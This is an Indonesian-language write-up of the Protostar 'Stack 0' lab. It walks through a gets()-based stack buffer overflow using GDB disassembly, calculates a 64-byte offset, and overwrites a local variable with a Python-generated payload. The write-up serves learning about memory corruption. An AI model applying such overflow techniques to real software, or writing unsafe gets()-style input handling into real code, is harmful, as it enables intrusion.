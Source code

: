 # Stack 0
## Tentang
Level ini memperkenalkan konsep bahwa memori dapat diakses di luar wilayah yang dialokasikan, bagaimana variabel stack ditata, dan bahwa memodifikasi di luar memori yang dialokasikan dapat mengubah eksekusi program.

## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

## Target Exploits
Pada level ini kita ditargetkan untuk mengubah variabel **modified** menjadi tidak sama dengan 0 untuk mencetak string "you have changed the 'modified' variable". Pada program diatas, input kita disimpan pada kedalam buffer menggunakan fungsi gets(). Karena gets() bukanlah fungsi yang aman, kita dapat menggunakannya untuk menimpa memori dimana variabel **modified** disimpan.

## Kerentanan Program
Seperti yang dikatakan sebelumnya **gets()** adalah fungsi yang tidak aman. Jika kita melihat pada man pages gets() dengan mengetikkan *man gets* pada bagian BUGS disebutkan bahwa gets() rentan karena tidak mungkin untuk mengetahui berapa banyak karakter yang akan diterima oleh gets(). fungsi ini akan terus menyimpan karakter setelah akhir buffer.

## Lets Dive Deeper
**[!] Disclaimer** saya disini memindahkannya dari Protostar machine kedalam local maschine saya, agar lebih mudah untuk menganalisis programnya. Disini saya juga menggunakan ekstensi dari GDB yaitu gef. Jadi alamat pada machine anda mungkin berbeda

Pertama tama kita coba liat bagaimana kodenya terlihat di assembly menggunakan command berikut
> **gdb -q stack0** </br>
> **disass main**
```
   0x080483f4 <+0>:	push   ebp
   0x080483f5 <+1>:	mov    ebp,esp
   0x080483f7 <+3>:	and    esp,0xfffffff0
   0x080483fa <+6>:	sub    esp,0x60
   0x080483fd <+9>:	mov    DWORD PTR [esp+0x5c],0x0
   0x08048405 <+17>:	lea    eax,[esp+0x1c]
   0x08048409 <+21>:	mov    DWORD PTR [esp],eax
   0x0804840c <+24>:	call   0x804830c <gets@plt>
   0x08048411 <+29>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:	test   eax,eax
   0x08048417 <+35>:	je     0x8048427 <main+51>
   0x08048419 <+37>:	mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
   0x08048427 <+51>:	mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:	call   0x804832c <puts@plt>
   0x08048433 <+63>:	leave
   0x08048434 <+64>:	ret

```

Kita dapat melihat pada alamat **0x08048415** terdapat fungsi yang membandingkan nilai dari eax dengan eax. Membingungkan bukan? </br>
Namun jika kita melihat sedikit keatas, kita dapat melihat pada alamat **0x08048411** bahwa nilai dari alamat **esp+0x5c** dimasukkan kedalam eax. Coba kita lihat di dalam gdb apa nilai dari alamat **esp+0x5c** tersebut dengan meletakkan breakpoint pada **0x08048415**

> b *0x08048415 </br>
> run </br>
> AAAA </br>
> x/wx $esp+0x5c

```
gef➤  x/wx $esp+0x5c
0xffffcdec:	0x00000000
```

Terlihat bahwa nilai dari alamat itu adalah 0. Kita diperintahkan untuk mengubah nilainya agar != 0 bukan? </br>
**Bagaimana Caranya??** </br>
Coba kita lihat kembali pada functions main, apa yang ia lakukan. Terdapat pada alamat **0x08048405** dimana nilai dari **esp+0x1c** dimasukkan kedalam eax juga. Apakah anda mengerti apa yang ia coba lakukan? :v. Coba kita lihat apa isi alamat itu

> gef➤  x/wx $esp+0x1c

```
gef➤  x/wx $esp+0x1c
0xffffcdac:	0x41414141
```

Jika kita melihat pada kedua alamat tersebut **0xffffcdec** dan **0xffffcdac**, bukankah mereka terlihat tidak begitu jauh?. Hanya dari *ec* ke *ac*. Mari coba kita hitung seberapa banyak karakter yang diperlukan untuk menimpa alamat variabel modified itu

> p/d 0xffffcdec - 0xffffcdac

```
gef➤  p/d 0xffffcdec - 0xffffcdac
$1 = 64
```

Terlihat bahwa untuk mencapai alamat **0xffffcdec** dibutuhkan 64 karakter

## Mari Kita Cobaa
Kita dapat menggunakan python untuk menghasilkan 64 karakter tersebut
```
python -c "print ('A'*64)" | ./stack0
Try again?
```

Mengapa tidak berhasil mencetak string **you have changed the 'modified' variable**?? </br>
Itu karena modified variabel belum terganti, masih = 0. Kita bisa mencoba menambahkan satu karakter untuk menimpa variabel itu

```
python -c "print ('A'*64+'B')" | ./stack0
you have changed the 'modified' variable

```

Nah.. Sekarang coba kita lihat apa yang terjadi di GDB

```
b *0x08048415 </br>
run </br>
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB </br>
x/wx $esp+0x5c
0xffffcdec:	0x00000042
x/wx $esp+0x1c
0xffffcdac:	0x41414141
```

Dapat dilihat sekarang alamat modified variabel kita sudah terganti dengan 0x00000042, 0x42 adalah "**B**" dalam Hexadesimal


